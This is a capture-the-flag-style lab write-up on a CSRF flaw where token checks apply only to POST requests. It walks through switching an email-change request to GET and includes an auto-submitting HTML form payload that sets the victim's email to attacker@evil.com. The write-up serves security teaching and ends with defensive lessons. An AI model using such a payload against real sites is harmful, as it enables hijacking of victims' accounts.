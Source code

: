 
# Lab: CSRF Where Token Validation Depends on Request Method

## Lab Description
This lab contains a Cross-Site Request Forgery (CSRF) vulnerability in the email change functionality of a web application. The application attempts to protect against CSRF attacks by validating a CSRF token, but only for certain request methods. Specifically, the CSRF token validation is enforced on POST requests but not on GET requests, allowing attackers to bypass CSRF protections by changing the request method.

---

## Objective

* Identify the CSRF protection mechanism in place.
* Exploit the vulnerability by crafting a CSRF attack that changes the victim’s email address.
* Use the knowledge that the CSRF token is not validated for GET requests to bypass protections.

---

## Environment Setup

* Target URL: `https://<lab-id>.web-security-academy.net/my-account/change-email`
* Credentials:  
  Username: `wiener`  
  Password: `peter`
* Tools used:
  * Burp Suite (Proxy, Repeater)
  * Browser (for exploit hosting and testing)

---

## Step-by-Step Exploit Walkthrough

### 1. Log In and Observe the Email Change Request

* Log in as user `wiener`.
* Intercept the request to change the email address using Burp Suite Proxy.
* Notice that the email change is done via a POST request with a CSRF token parameter:
```

POST /my-account/change-email
Content-Type: application/x-www-form-urlencoded

email=[wiener3@gmail.com](mailto:wiener3@gmail.com)\&csrf=valid-csrf-token

```


### 2. Test CSRF Token Enforcement

* Modify the CSRF token to an invalid value and send the POST request.
* Observe that the server rejects the request due to invalid CSRF token.
```

![Weakness](./findingweakness.png)

```
---

### 3. Change the Request Method to GET

* Use Burp Suite Repeater’s “Change request method” feature to change the request from POST to GET.
* Remove the CSRF token parameter.
* Send the GET request:
```

GET /my-account/change-email?email=[attacker@evil.com](mailto:attacker@evil.com)

````
* Observe that the server accepts the request and changes the email address without requiring a CSRF token.

---

### 4. Craft CSRF Exploit HTML

* Create an HTML page that automatically submits a GET request to change the email:
```html
<form action="https://<lab-id>.web-security-academy.net/my-account/change-email" method="GET">
  <input type="hidden" name="email" value="attacker@evil.com">
</form>
<script>
  document.forms[0].submit();
</script>
````

* Host this HTML on the exploit server provided by the lab.

---

### 5. Deliver the Exploit

* Visit the exploit URL to simulate the victim visiting a malicious site.
* The victim’s browser automatically submits the GET request with their authentication cookie.
* The victim’s email is changed to `attacker@evil.com`, bypassing CSRF protections.
![Exploit](./Exploit.png)

---

## Payloads Used

| Description                  | Payload/Technique                               |
| ---------------------------- | ----------------------------------------------- |
| CSRF exploit with GET method | `<form action=".../change-email" method="GET">` |

---

## Lessons Learned

* CSRF token validation must be enforced on **all** state-changing HTTP methods, including GET.
* Relying on HTTP method to skip CSRF validation is insecure.
* Auto-submitting forms with GET can bypass token protections if not properly enforced.
* Proper CSRF defenses include consistent token validation and avoiding side-effects on GET requests.

---

## Conclusion

This lab demonstrates a subtle CSRF vulnerability where token validation depends on the HTTP request method. Attackers can exploit this by switching from POST to GET requests to bypass CSRF protections and perform unauthorized actions on behalf of the victim. Properly enforcing CSRF tokens on all methods and avoiding unsafe state changes on GET requests are critical for security.
